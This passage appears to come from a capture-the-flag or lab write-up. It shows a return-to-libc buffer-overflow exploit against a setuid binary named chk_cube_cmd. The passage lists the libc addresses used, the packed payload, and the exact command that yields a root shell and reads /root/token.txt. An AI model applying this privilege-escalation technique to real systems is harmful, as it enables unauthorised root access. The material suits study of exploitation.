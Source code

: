 We notice that the value `0xcafebabe` starts at address `0xffffd76f`, which should also be the (self-referencing) address of `here_ptr`.

To recap: we must place 76 junk bytes (e.g., "A") into the buffer, followed by:

|             |              |                    |
|-------------|--------------|--------------------|
| `printf()`  | `0xf7e1bd30` | `\x30\xbd\xe1\xf7` |
| `execl()`   | `0xf7e94580` | `\x80\x45\xe9\xf7` |
| `"%3$n"`    | `0xffffd7a3` | `\xa3\xd7\xff\xff` |
| `"setuid"`  | `0xf7dda0d8` | `\xd8\xa0\xdd\xf7` |
| `"setuid"`  | `0xf7dda0d8` | `\xd8\xa0\xdd\xf7` |
| `&here_ptr` | `0xffffd76f` | `\x6f\xd7\xff\xff` |

We perform our exploit:

```
$ chk_cube_cmd \
  $(python2 -c 'print "A"*76 + "\x30\xbd\xe1\xf7\x80\x45\xe9\xf7\xa3\xd7\xff\xff\xd8\xa0\xdd\xf7\xd8\xa0\xdd\xf7\x6f\xd7\xff\xff"')
cube_cmd: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAA0����E������ؠ��ؠ��o���
# whoami
root
# ls /root
snap  token.txt
# cat /root/token.txt
...
```

...and find the answer to the second question.
